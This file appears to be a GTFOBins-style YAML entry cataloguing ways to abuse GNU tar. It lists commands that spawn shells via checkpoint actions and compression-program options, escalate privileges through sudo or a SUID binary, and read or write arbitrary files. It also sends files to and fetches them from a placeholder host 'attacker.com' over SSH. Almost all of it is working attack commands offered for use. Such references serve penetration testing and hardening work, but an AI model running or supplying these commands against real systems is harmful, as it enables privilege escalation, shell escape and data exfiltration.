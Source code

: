 ```yaml
---
functions:
  shell:
    - code: tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
    - description: This only works for GNU tar.
      code: tar xf /dev/null -I '/bin/sh -c "sh <&2 1>&2"'
    - description: This only works for GNU tar. It can be useful when only a limited command argument injection is available.
      code: |
        TF=$(mktemp)
        echo '/bin/sh 0<&1' > "$TF"
        tar cf "$TF.tar" "$TF"
        tar xf "$TF.tar" --to-command sh
        rm "$TF"*
  file-upload:
    - description: This only works for GNU tar. Create tar archive and send it via SSH to a remote location. The attacker box must have the `rmt` utility installed (it should be present by default in Debian-like distributions).
      code: |
        export RHOST=attacker.com
        export RUSER=root
        export RFILE=/tmp/file_to_send.tar
        export LFILE=file_to_send
        tar cvf $RUSER@$RHOST:$RFILE $LFILE --rsh-command=/bin/ssh
  file-download:
    - description: This only works for GNU tar. Download and extract a tar archive via SSH. The attacker box must have the `rmt` utility installed (it should be present by default in Debian-like distributions).
      code: |
        export RHOST=attacker.com
        export RUSER=root
        export RFILE=/tmp/file_to_get.tar
        tar xvf $RUSER@$RHOST:$RFILE --rsh-command=/bin/ssh
  file-write:
    - description: This only works for GNU tar.
      code: |
        LFILE=file_to_write
        TF=$(mktemp)
        echo DATA > "$TF"
        tar c --xform "s@.*@$LFILE@" -OP "$TF" | tar x -P
  file-read:
    - description: This only works for GNU tar.
      code: |
        LFILE=file_to_read
        tar xf "$LFILE" -I '/bin/sh -c "cat 1>&2"'
  sudo:
    - code: sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
  limited-suid:
    - code: ./tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
---
```

